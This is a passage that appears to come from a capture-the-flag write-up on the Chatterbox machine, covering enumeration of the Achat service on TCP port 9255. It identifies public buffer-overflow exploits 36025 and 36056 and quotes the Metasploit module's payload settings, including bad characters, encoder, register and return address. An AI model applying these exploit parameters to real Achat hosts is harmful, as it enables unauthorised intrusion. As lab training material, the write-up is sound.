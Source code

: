 What is Achat? Trying to browse to TCP port 9255 shows that it is not a web server? Try looking for an exploit:

```bash
searchsploit achat
```

![ss1](./chatterbox/ss1.png)

Exploits 36025 and 36056 look promising:

- https://www.exploit-db.com/exploits/36025
  - Looks like a basic BOF for Windows 7 32bit
- https://www.exploit-db.com/exploits/36056
  - Same as exploit 36025, but for Metasploit

The target OS version is not known from other enumeration methods... I guess just try it out? First generate a new payload for exploit 36025 after looking at the following Metasploit Ruby code:

```ruby
'DefaultOptions' =>
  {
    'EXITFUNC' => 'process'
  },
'Payload'        =>
  {
    'DisableNops' => true,
    'Space'    => 730,
    'BadChars' => "\x00" + (0x80..0xff).to_a.pack("C*"),
    'StackAdjustment' => -3500,
    'EncoderType'    => Msf::Encoder::Type::AlphanumUnicodeMixed,
    'EncoderOptions'  =>
      {
        'BufferRegister' => 'EAX'
      }
  },
'Platform'       => 'win',
'Targets'        =>
  [
    # Tested OK Windows XP SP3, Windows 7
    # Not working on Windows Server 2003
    [ 'Achat beta v0.150 / Windows XP SP3 / Windows 7 SP1', { 'Ret' => "\x2A\x46" } ] 
  ],
'Privileged'     => false,
'DefaultTarget'  => 0,
```
